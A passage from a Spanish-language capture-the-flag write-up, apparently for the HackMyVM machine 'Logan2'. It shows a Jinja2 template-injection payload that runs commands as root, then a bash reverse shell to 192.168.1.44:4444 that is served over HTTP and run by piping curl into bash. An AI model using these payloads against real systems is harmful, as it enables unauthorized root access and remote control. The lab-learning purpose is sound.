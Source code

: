 Y efectivamente es vulnerable, por lo que inyecto un payload que me permita mandarme una reverse shell, recordar que este servicio lo estoy corriendo como usuario root.

Buscando en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2), eligo el siguiente payload.

{% raw %}
`{{ cycler.__init__.__globals__.os.popen('id').read() }}`
{% endraw %}
![Untitled](/images/2023-12-15-HVM-Logan2/Untitled%2032.png)

Y estamos ejecutando comandos como root, para terminar me mando una reverse shell y acceder al sistema como dicho usuario.

### Reverse shell como root

Para esto tenemos que hacerlo de una forma distinta a como se hace siempre en este caso me compartire un servicio http con python con este contenido en el index.html

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.44/4444 0>&1
```

luego hago una peticion con curl y lo pipeo con un bash para que interprete el codigo del `index.html`, para en mi equipo estar en escucha en el puerto 4444 y con el servicio `http` compartiendo el archivo.

![Untitled](/images/2023-12-15-HVM-Logan2/Untitled%2033.png)
